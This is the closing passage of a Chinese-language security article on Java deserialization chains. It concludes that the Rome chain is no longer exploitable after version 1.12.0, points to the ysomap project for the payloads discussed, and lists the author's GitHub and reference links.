需要两处都可控才有可能继续利用，这么看来显然是不行的了，**1.12.0后Rome链确实是不能再利用了**

## 工具实现

本文所述所有payload都可以在wh1t3p1g师傅的ysomap项目中找到（其中有几条是我贡献的XD）

[https://github.com/wh1t3p1g/ysomap](https://github.com/wh1t3p1g/ysomap)

My GitHub：[https://github.com/whocansee](https://github.com/whocansee)

## 参考

[https://xz.aliyun.com/t/12768](https://xz.aliyun.com/t/12768)

[https://paper.seebug.org/2055](https://paper.seebug.org/2055)

[https://zhuanlan.zhihu.com/p/638158617](https://zhuanlan.zhihu.com/p/638158617)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)
